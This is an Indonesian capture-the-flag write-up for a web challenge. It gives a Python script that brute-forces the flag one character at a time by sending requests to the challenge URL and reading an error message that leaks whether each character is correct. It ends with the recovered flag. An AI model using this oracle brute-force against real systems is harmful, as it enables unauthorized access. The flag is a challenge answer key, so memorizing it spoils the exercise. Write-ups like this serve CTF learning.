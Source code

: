 Pertama kali Bruteforce pada website ? Dicoba deh ini

Link : https://web.ctf.rasyidmf.com/chal16/

```
import requests,progressbar

with progressbar.ProgressBar(max_value=35, redirect_stdout=True) as bar:

	karakter = 'abcdefghijklmnopqrstuvwxyz0123456789_'
	flag = list('CTFR{..............................}')
	index = 5
	while(index < 36):
		for x in karakter:
			send_flag = flag
			send_flag[index] = x
			send_flag = ''.join(send_flag)
			req = requests.get('https://web.ctf.rasyidmf.com/chal16/',params={'flag':send_flag})
			res = req.text

			if 'Karakter pada index <b>{}</b>'.format(str(index)) not in res:
				flag[index] = x
				print(''.join(flag))
				index+=1
				break

		bar.update(index)

```

Flag

```
CTFR{brut3_f0rc3_m4k3_y0u_f33l_g00d}
```